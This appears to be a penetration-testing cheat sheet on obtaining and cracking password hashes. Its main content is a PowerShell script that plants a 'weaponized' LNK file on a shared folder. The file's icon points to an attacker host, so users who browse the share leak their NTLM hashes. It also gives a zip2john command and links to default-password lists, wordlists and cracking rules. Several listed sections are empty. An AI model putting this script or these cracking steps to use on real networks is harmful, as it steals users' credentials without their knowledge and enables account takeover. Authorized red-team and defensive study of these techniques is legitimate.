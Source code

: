 # Hashes and Passwords 

[Obtaining Hashes](#obtaining_hashes)  
[Default Passwords](#default_passwords)  
[Password Cracking](#password_cracking)  
[Wordlists](#wordlists)  
[Rules](#rules)  
[Hashcat](#hashcat)  
[Cracking Website Logins](#cracking_websites)

## <a name="obtaining_hashes">Obtaining Hashes</a>  

### NTLM HASHES

**LNK File Method  
This method drops a weaponized LNK file into the root of a share with read level access.  As users browse the share, their hashes are sent to our host server.

Modify the Powershell script below and execute.  

```$ip = 'x.x.x.x'
$filename = 'test.ico'

$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("evil.txt.lnk")
$lnk.TargetPath = "$HOME\evil.txt"
$lnk.WindowStyle = 1
$lnk.IconLocation = "\\$ip\$filename"
Write-Output $lnk.Save()

Write-Output "Saved successfully at $HOME\evil.txt"  
```   


## <a name="default_passwords">Default Passwords</a>

[SecLists/Default Passwords](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/default-passwords.csv)  

####<a name="password_cracking">Password Cracking</a>

### <a name="wordlists">Wordlists</a>  
[SecLists/Passwords](https://github.com/danielmiessler/SecLists/tree/master/Passwords)  

### <a name="rules"> Rules  (Rule will add permutations to wordlists)</a>   
[Hob0Rules](https://github.com/praetorian-inc/Hob0Rules)  

<a name="getting_hashes">### Getting Hashes</a>  
From ZIP files  
`zip2john <ZIP ARCHIVE> > <OUTFILE>`
